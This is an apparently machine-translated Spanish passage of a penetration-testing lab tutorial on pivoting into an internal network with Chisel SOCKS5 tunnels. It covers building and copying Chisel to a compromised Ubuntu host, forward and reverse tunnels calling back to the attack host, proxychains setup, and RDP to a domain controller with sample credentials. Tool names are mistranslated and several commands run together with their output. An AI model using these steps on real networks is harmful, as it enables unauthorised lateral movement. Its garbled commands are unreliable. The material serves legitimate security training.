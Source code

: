 # SOCKS5 Tunneling with Chisel

[Cincel](https://github.com/jpillora/chisel)es una herramienta de túneles basada en TCP/UDP escrita en[Ir](https://go.dev/)que utiliza HTTP para transportar datos asegurados con SSH.`Chisel`puede crear una conexión de túnel cliente-servidor en un entorno restringido de firewall. Consideremos un escenario en el que tenemos que túnel nuestro tráfico a un servidor web en el`172.16.5.0`/`23`Red (red interna). Tenemos el controlador de dominio con la dirección`172.16.5.19`. Esto no es directamente accesible para nuestro host de ataque ya que nuestro host de ataque y el controlador de dominio pertenecen a diferentes segmentos de red. Sin embargo, dado que hemos comprometido el servidor Ubuntu, podemos iniciar un servidor de cincel que escuchará en un puerto específico y reenviará nuestro tráfico a la red interna a través del túnel establecido.

# **Configurar y usar cincel**

Antes de que podamos usar el cincel, necesitamos tenerlo en nuestro host de ataque. Si no tenemos cincel en nuestro host de ataque, podemos clonar el repositorio del proyecto usando el comando directamente a continuación:

### **Cincel de clonación**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

Necesitaremos el lenguaje de programación`Go`Instalado en nuestro sistema para construir el binario de cincel. Con GO instalado en el sistema, podemos pasar a ese directorio y usar`go build`para construir el binario de cincel.

### **Construyendo el binario de cincel**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ cd chiselgo build

```

Puede ser útil tener en cuenta el tamaño de los archivos que transferimos a los objetivos en las redes de nuestro cliente, no solo por razones de rendimiento, sino también considerando la detección. Dos recursos beneficiosos para complementar este concepto en particular son la publicación de blog de OXDF "[Túneles con cincel y SSF](https://0xdf.gitlab.io/cheatsheets/chisel)"Y el tutorial de la caja de IPPSEC`Reddish`. IPPSEC comienza su explicación del cincel, construyendo el binario y reduciendo el tamaño del binario en la marca 24:29 de su[video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s).

Una vez que se construye el binario, podemos usar`SCP`para transferirlo al host de pivote objetivo.

### **Transferencia de cincel binario al huésped pivot**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
ubuntu@10.129.202.64's password:
chisel                                        100%   11MB   1.2MB/s   00:09

```

Luego podemos iniciar el servidor/oyente de cincel.

### **Ejecutando el servidor de cincel en el host Pivot**

Calcetines5 túneles con cincel

```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks52022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234

```

El oyente de cincel escuchará las conexiones entrantes en el puerto`1234`Usando SOCKS5 (`--socks5`) y reenvíelo a todas las redes a las que se puede acceder desde el host Pivot. En nuestro caso, el host Pivot tiene una interfaz en la red 172.16.5.0/23, que nos permitirá llegar a los hosts en esa red.

Podemos iniciar un cliente en nuestro host de ataque y conectarnos al servidor de cincel.

### **Conectarse al servidor de cincel**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected

```

Como puede ver en la salida anterior, el cliente de chisel ha creado un túnel TCP/UDP a través de HTTP asegurado utilizando SSH entre el servidor de chisel y el cliente y ha comenzado a escuchar en el puerto 1080. Ahora podemos modificar nuestro archivo proxychains.conf ubicado en`/etc/proxychains.conf`y agregar`1080`Puerto al final para que podamos usar proxychains para pivotar utilizando el túnel creado entre el puerto 1080 y el túnel SSH.

### **Edición y confirmación de proxychains.conf**

Podemos usar cualquier editor de texto que nos gustaría editar el archivo proxychains.conf, luego confirmar nuestros cambios de configuración usando`tail`.

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ tail -f /etc/proxychains.conf #
#       proxy types: http, socks4, socks5#        ( auth types supported: "basic"-http  "user/pass"-socks )#
[ProxyList]
# add proxy here ...# meanwile# defaults set to "tor"# socks4 	127.0.0.1 9050socks5 127.0.0.1 1080

```

Ahora, si usamos proxyChains con RDP, podemos conectarnos al DC en la red interna a través del túnel que hemos creado en el host Pivot.

### **Girando a la DC**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

# **Cincel renovado**

En el ejemplo anterior, utilizamos la máquina comprometida (Ubuntu) como nuestro servidor de cincel, enumerando en el puerto 1234. Aún así, puede haber escenarios en los que las reglas de firewall restringen las conexiones entrantes a nuestro objetivo comprometido. En tales casos, podemos usar cincel con la opción inversa.

Cuando el servidor de cincel tiene`--reverse`habilitado, los controles remotos se pueden prefijo`R`para denotar invertido. El servidor escuchará y aceptará conexiones, y se presentarán a través del cliente, lo que especificó el control remoto. Remotes revertidos especificando`R:socks`Escuchará en el puerto de calcetines predeterminado del servidor (1080) y terminará la conexión en el proxy interno de Socks5 del cliente.

Iniciaremos el servidor en nuestro host de ataque con la opción`--reverse`.

### **Iniciar el servidor de cincel en nuestro host de ataque**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks52022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234

```

Luego nos conectamos desde el Ubuntu (host Pivot) a nuestro host de ataque, usando la opción`R:socks`

### **Conectando al cliente de cincel a nuestro host de ataque**

Calcetines5 túneles con cincel

```
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected

```

Podemos usar cualquier editor que nos gustaría editar el archivo proxychains.conf, luego confirmar nuestros cambios de configuración usando`tail`.

### **Edición y confirmación de proxychains.conf**

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ tail -f /etc/proxychains.conf [ProxyList]
# add proxy here ...# socks4    127.0.0.1 9050socks5 127.0.0.1 1080

```

Si usamos proxyChains con RDP, podemos conectarnos al DC en la red interna a través del túnel que hemos creado para el host Pivot.

Calcetines5 túneles con cincel

```
xnoxos@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

**Nota:**Si recibe un mensaje de error con cincel en el objetivo, intente con un[Versión diferente](https://github.com/jpillora/chisel/releases).